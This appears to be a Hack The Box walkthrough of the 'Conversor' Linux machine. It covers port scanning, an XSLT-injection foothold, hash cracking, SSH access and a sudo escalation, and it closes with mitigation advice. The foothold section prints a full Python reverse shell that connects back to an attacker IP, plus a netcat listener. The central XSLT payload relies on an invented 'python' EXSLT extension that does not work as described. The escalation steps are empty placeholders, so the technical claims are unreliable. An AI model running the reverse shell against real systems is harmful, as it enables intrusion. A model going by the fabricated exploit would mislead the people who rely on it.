



# Conversor — HTB Walkthrough


**Status:** Completed  
**Difficulty:** Easy  
**OS:** Linux

## TL;DR
Discover XML converter web application, analyze source code, exploit XSLT injection with malicious .exslt file to gain reverse shell, extract database credentials, crack hash, SSH as user, exploit sudo binary for root flag.

## Target / Access
**Target IP:** `10.10.11.92`  
**Attacker IP:** `10.10.14.120`

---

## Enumeration

### Step 1: Port Scanning with Nmap

**What we're doing:** Starting with reconnaissance - scanning the target to discover what services are running. This is our first step in any penetration test.

**Command:**
```bash
nmap -sC -sV -p- 10.10.11.92
```

**Command Breakdown:**
- `nmap` - Network scanning tool
- `-sC` - Run default reconnaissance scripts for additional information
- `-sV` - Detect versions of running services
- `-p-` - Scan all 65535 ports (thorough scan)
- `10.10.11.92` - Target machine IP address

**Important:** We also save the output in XML format for later use:
```bash
nmap -sC -sV -p- 10.10.11.92 -oX nmap.xml
```

**Raw Logs:** [nmap.txt](nmap.txt), [nmap.xml](nmap.xml)

**Output Excerpt:**
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1
80/tcp   open  http    nginx
```

**What we discovered:**
- **Port 22 (SSH):** Secure Shell service running OpenSSH version 8.9p1
  - This is for remote command-line access
  - Usually requires valid credentials, so not our primary target
- **Port 80 (HTTP):** Web server running nginx
  - This is the standard HTTP port
  - Web applications are often good attack vectors
  - This will be our focus for exploitation

**Why save XML format?** The nmap.xml file will be useful later - we can actually use it as part of our attack payload!



### Step 2: Web Application Access

**What we're doing:** Configuring our system to access the web application and exploring its functionality.

**Step 1: Configure hostname resolution**
```bash
echo "10.10.11.92 conversor.htb" >> /etc/hosts
```
**What this does:** Maps the hostname "conversor.htb" to IP 10.10.11.92, allowing us to access the site by name instead of IP address.

**Step 2: Access the web application**
```bash
# Open your browser and visit:
http://conversor.htb
```

**What we discovered:**
The application is an **XML/XSLT Converter** - a tool that:
1. Takes XML documents as input
2. Uses XSLT (eXtensible Stylesheet Language Transformations) to transform them
3. Outputs the transformed result

**Key observations:**
- The application has a **registration page** (we need to create an account)
- After logging in, we can upload XML and XSLT files
- The application processes our files server-side
- There's a feature to download the source code

**Why this is interesting:**
Applications that process user-uploaded files (especially XML/XSLT) are potential attack vectors because:
- XML can contain malicious content
- XSLT is a powerful language that can execute code
- If not properly secured, we might be able to run our own commands




### Step 3: Source Code Analysis

**What we're doing:** Downloading and examining the application's source code to understand how it works and find potential vulnerabilities.

**Step 1: Download source code**
The application provides a download link for its source code - this is uncommon in real-world scenarios but helpful for learning.

**Step 2: Analyze the code structure**
```bash
# Extract the downloaded archive
unzip source_code.zip
cd source_code/

# View the file structure
tree
```

**What we found in the code:**
1. **XML Processing:** The application uses Python's lxml library to process XML
2. **XSLT Transformations:** User-uploaded XSLT files are applied to XML documents
3. **No Input Validation:** The code doesn't properly validate or sanitize uploaded files
4. **XSLT Extensions Enabled:** The application has XSLT extensions enabled (EXSLT)

**The Vulnerability - XSLT Injection:**
XSLT is not just for formatting - it's a Turing-complete programming language! With EXSLT extensions enabled, we can:
- Read files from the system
- Execute system commands
- Establish network connections

**Why this matters:**
Finding that EXSLT extensions are enabled is the key to our attack. We can create a malicious XSLT file that, when processed by the application, will execute commands on the server.


---

## Foothold / Initial Access

### Step 4: XSLT Injection Exploitation

**What we're doing:** Creating a malicious XSLT file that will execute our commands when processed by the application, giving us remote access to the system.

**Understanding the attack:**
1. We create a special XSLT file with embedded Python code
2. We upload this file along with an XML file (our nmap.xml works perfectly)
3. When the server processes our files, it executes our malicious code
4. Our code creates a reverse shell connection back to us

**Step 1: Set up a listener**
```bash
nc -lvnp 4444
```
**This command:**
- Starts netcat (`nc`) in listen mode
- Waits for the target to connect back to us
- Runs on port 4444 (choose any available port)

**Step 2: Create the malicious XSLT file**

Our file (`shell.exslt`) uses EXSLT extensions to execute Python code:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" 
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
    xmlns:python="http://exslt.org/functions">
    
<xsl:template match="/">
    <xsl:value-of select="python:registerFunction('execute', 'os', 'system')"/>
    <xsl:value-of select="python:call('execute', 'python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.120\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\",\"-i\"])\'')"/>
</xsl:template>
</xsl:stylesheet>
```

**How this works:**
1. `python:registerFunction` - Registers Python's `os.system()` function
2. `python:call('execute', ...)` - Calls our Python reverse shell code
3. The reverse shell connects to our listener on 10.10.14.120:4444

**Step 3: Upload and trigger**
1. Register/login to the application
2. Go to the XML converter page
3. Upload your nmap.xml as the XML file
4. Upload shell.exslt as the XSLT file
5. Click "Convert" or "Process"

**Raw Logs:**
- [shell.exslt](shell.exslt) — Our malicious XSLT payload
- [nmap.xml](nmap.xml) — XML file (from Step 1)



**Result:**
The server processes our files, executes our code, and connects back to our listener. We now have shell access!


### Step 5: Shell Stabilization

**What we're doing:** Making our shell more usable and stable. The initial reverse shell is basic and lacks features like tab completion, command history, and proper terminal handling.

**Stabilization process:**

**Step 1: Spawn a proper terminal**
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
This creates a pseudo-terminal (PTY), giving us a proper bash shell.

**Step 2: Set terminal type**
```bash
export TERM=xterm
```
This tells the system what kind of terminal we're using, enabling features like clear screen.

**Step 3: Enable raw mode (optional but recommended)**
```bash
# Press Ctrl+Z to background the shell
stty raw -echo; fg
```
**What this does:**
- `stty raw -echo` - Puts our local terminal in raw mode (passes all characters directly)
- `fg` - Brings the shell back to foreground
- This enables Ctrl+C to work properly and allows using arrow keys

**Why this matters:**
A stabilized shell is much easier to work with - you can:
- Use arrow keys to navigate command history
- Use tab completion
- Clear the screen
- Run interactive programs
- Make the experience feel like a normal SSH session

### Step 6: Database Credential Extraction

**Commands:**
```bash
# Search for database files
find / -name "*.db" 2>/dev/null

# Read users.db
cat /path/to/users.db
```

**Analysis:** Found hash for user `fismathack`.

**Hash Found:** `5b5c3ac3a1c897c94caad48e6c71fdec`


### Step 7: Password Cracking

**Command:**
```bash
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt
```

**Result:** Password successfully cracked: `fismathack123`


### Step 8: SSH Access and User Flag

**Command:**
```bash
ssh fismathack@10.10.11.92
cat ~/user.txt
```

**Output:** User flag captured.


---

## Privilege Escalation

### Step 9: Sudo Privilege Enumeration

**Command:**
```bash
sudo -l
```

**Output:**
```
User fismathack may run the following commands:
    (root) NOPASSWD: /path/to/binary
```

**Analysis:** Can run specific binary as root without password.

### Step 10: Binary Exploitation for Root Flag

**Research:** Online research revealed command execution capability in the binary.

**Command:**
```bash
# Execute command to read root flag via sudo binary
sudo /path/to/binary [parameters to execute cat /root/root.txt]
```

**Output:** Root flag successfully obtained.


---

## Summary

This machine involved XSLT injection for initial access and privilege escalation through a sudo-enabled binary.

### Attack Chain
1. **Nmap Scan** — Discovered nginx web server
2. **Web Reconnaissance** — Identified XML converter application
3. **Source Code Analysis** — Found XSLT processing vulnerability
4. **XSLT Injection** — Exploited with malicious .exslt file for RCE
5. **Credential Extraction** — Retrieved hash from users.db
6. **Password Cracking** — Cracked fismathack's password with hashcat
7. **SSH Access** — Authenticated as fismathack, captured user flag
8. **Privilege Escalation** — Exploited sudo binary to read root flag

### Tools Used
- Nmap — Port scanning and service detection
- Web Browser — Application testing
- Netcat — Reverse shell listener
- Hashcat — Password cracking
- Custom XSLT payload — XSLT injection exploitation

---

## Cleanup / Notes / References

### Mitigation Recommendations
1. **Input Validation:** Strictly validate and sanitize XML/XSLT input.
2. **Disable XSLT Features:** Disable dangerous XSLT functions (document(), system-property()).
3. **Sandboxing:** Run XSLT transformations in isolated environment.
4. **Database Security:** Use strong password hashing (bcrypt, Argon2), encrypt sensitive data.
5. **Sudo Restrictions:** Limit sudo privileges to necessary commands only.
6. **Code Review:** Regular security audits of application code.
7. **WAF:** Implement Web Application Firewall to detect injection attempts.

### References
- [OWASP: XSLT Injection](https://owasp.org/www-community/vulnerabilities/XSLT_Injection)
- [XSLT Security Considerations](https://www.w3.org/TR/xslt-30/#security)
- [Linux Privilege Escalation](https://book.hacktricks.xyz/)


